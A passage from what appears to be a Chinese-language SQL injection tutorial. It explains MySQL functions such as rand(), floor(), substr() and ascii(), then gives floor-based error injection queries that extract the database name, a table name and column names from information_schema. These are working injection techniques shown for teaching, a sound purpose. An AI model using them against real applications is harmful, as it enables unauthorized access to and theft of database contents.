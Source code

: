 #### rand()---用于产生一个0~1的随机数

![8.png](http://www.myh0st.cn/usr/uploads/2017/12/2622123243.png)

#### floor()---向下取整

![9.png](http://www.myh0st.cn/usr/uploads/2017/12/3292419668.png)

#### group by---依据我们想要的规则对结果进行分组

![10.png](http://www.myh0st.cn/usr/uploads/2017/12/2793501249.png)

#### length()---返回字符串的长度

![11.png](http://www.myh0st.cn/usr/uploads/2017/12/1936760004.png)

#### Substr()---截取字符串 三个参数 （所要截取字符串，截取的位置，截取的长度）

![12.png](http://www.myh0st.cn/usr/uploads/2017/12/2765121492.png)

#### Ascii()---返回字符串的ascii码

![13.png](http://www.myh0st.cn/usr/uploads/2017/12/1480215882.png)

### 报错注入

基于floor，UpdateXml(有长度限制,最长32位)，ExtractValue(有长度限制,最长32位)进行报错注入。

#### floor报错

- 获取数据库

```
mysql> select count(*),(concat(0x3a,database(),0x3a,floor(rand()*2))) name from information_schema.tables group by name; 
```

![14.png](http://www.myh0st.cn/usr/uploads/2017/12/1229301416.png)

- 获取表名

```
mysql> select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;
```

![15.png](http://www.myh0st.cn/usr/uploads/2017/12/2524956680.png)

- 获取字段名

```
mysql> select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;
```

